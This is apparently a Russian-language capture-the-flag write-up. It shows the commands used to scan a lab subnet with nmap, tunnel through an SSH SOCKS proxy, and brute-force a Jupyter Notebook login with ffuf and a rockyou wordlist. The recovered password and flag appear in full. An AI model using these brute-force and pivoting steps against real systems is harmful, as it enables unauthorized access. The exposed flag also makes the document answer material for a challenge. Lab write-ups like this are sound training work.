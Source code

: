 # Машинное обучение
Сканируем подсеть:
`nmap -sn 10.1.0.0/24 --min-rate 500`
Находим хост 10.1.0.2. Сканируем порты:
`nmap -sC 10.1.0.2`
Видим http  сервер на 8888 порту.

В соседнем терминале пробрасываем порт через ssh:
`ssh -D 7777 deteact@5.188.117.170 -p 8222`

Настраиваем в бюрпе socks proxy на 127.0.0.1:7777

Заходим на `http://10.1.0.2:8888/` и видим страницу jupyter notebook, которая спрашивает пароль.

Пробум перебрать пароль:
``` shell
ffuf -c -x socks5://127.0.0.1:7777 -X POST -u 'http://10.1.0.2:8888/login?n  
ext=%2Ftree' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: _xsrf=2|e1ec3c2d|a18c2  
5b4fc955764bba1c3bda9582210|1681896673' -d '_xsrf=2%7Cf2b693dd%7Cb2d68a44efcff894a8fb6c4dba028de0%7C  
1681896673&password=FUZZ' -w rockyou-50.txt -fc 401
```
И получаем 302 статус код с паролем `1qazxsw2`.
Вводим этот пароль в браузере и попадаем в /tree.

Далее можем создать терминал в браузере и можем прочитать флаг:
``` shell
cat /flag.txt
```

Флаг - flag{35ba5d5cc11adb4fe59885d9a41ae3c9}